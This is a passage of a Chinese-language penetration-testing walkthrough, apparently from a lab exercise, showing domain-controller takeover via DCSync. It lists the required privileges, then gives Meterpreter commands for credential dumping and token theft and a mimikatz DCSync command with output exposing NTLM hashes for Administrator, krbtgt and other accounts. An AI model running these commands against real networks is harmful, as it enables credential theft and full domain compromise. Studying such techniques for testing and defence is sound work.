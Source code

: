 ### Dsync 攻击拿下域控

```bash
DCSync 攻击前提
一个用户想发起 DCSync 攻击，必须获得以下任一用户的权限：

•Administrators 组内的用户
•Domain Admins 组内的用户
•Enterprise Admins 组内的用户
•域控制器的计算机帐户

即：默认情况下域管理员组具有该权限。
机器拥有机器有 DCSync 的权限，
```

利用`proxychains` + `msfconsole`拿下永恒之蓝主机  
收集 Windows 的`凭据`

```bash
## 获取凭据
load kiwi
creds_all

# 令牌偷取
load incognito
list_tokens -u
```

[![](assets/1709193375-5548a24194323fbb2805e9bb8122fb6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205401-47a9e594-d56f-1.png)

`DCSync`获取域控

```bash
meterpreter > kiwi_cmd lsadump::dcsync /domain:xiaorang.lab /all /csv
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
500     Administrator   10cf89a850fb1cdbe6bb432b859164c8        512
502     krbtgt  fb812eea13a18b7fcdb8e6d67ddc205b        514
1106    Marcus  e07510a4284b3c97c8e7dee970918c5c        512
1107    Charles f6a9881cd5ae709abb4ac9ab87f24617        512
1000    DC01$   edc506302bf9b040febfb84a1459c0e8        532480
1104    XIAORANG-OA01$  673ec2d0ad2f73341c4b3e1fc2fbade5        4096
```